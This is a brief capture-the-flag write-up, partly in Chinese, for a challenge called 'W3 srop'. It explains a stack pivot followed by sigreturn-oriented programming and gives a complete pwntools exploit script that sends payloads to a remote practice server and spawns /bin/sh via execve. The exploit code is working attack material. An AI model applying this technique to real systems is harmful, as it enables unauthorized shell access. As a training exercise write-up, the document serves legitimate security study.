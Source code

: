 # W3 srop

## 文件分析

NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

思路和上一题类似，先进行栈迁移，方便控制地址，然后srop

这题没有syscall，只有syscall函数，所以要注意rsp+8要可用；并且rdi是rax等

srop可以用pwntools里的工具快速生成，主要是要多次利用sigreturn改变rip，
从而控制程序走向，具体的流程可以在ctf-wiki中学习

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26073)
elf = ELF('srop')

syscall = elf.plt['syscall'] # here syscall is a libc function
main = elf.symbols['main']
popRdiAddr = 0x401203
retAddr = 0x401144
bssHigh = 0x404800

# payload 1, stack pivot to bss and read again
sh.send(b'0'*0x30 + p64(bssHigh) + p64(0x401171) + b'0'*(0x300-0x40))
sh.recv(0x30) # skip all write content

context.arch = 'amd64'
shellFrame = SigreturnFrame()
shellFrame.rdi = constants.SYS_execve
shellFrame.rsi = bssHigh - 0x30 # /bin/sh addr
shellFrame.rdx = 0
shellFrame.rcx = 0
shellFrame.rsp = bssHigh
shellFrame.rip = syscall

# payload 2, write /bin/sh to bss and invoke sigreturn to do execve
sh.sendline(b'/bin/sh\0' + b'0'*0x30 + p64(popRdiAddr) + p64(15) + p64(syscall) + bytes(shellFrame))
sh.interactive()
```

Done.
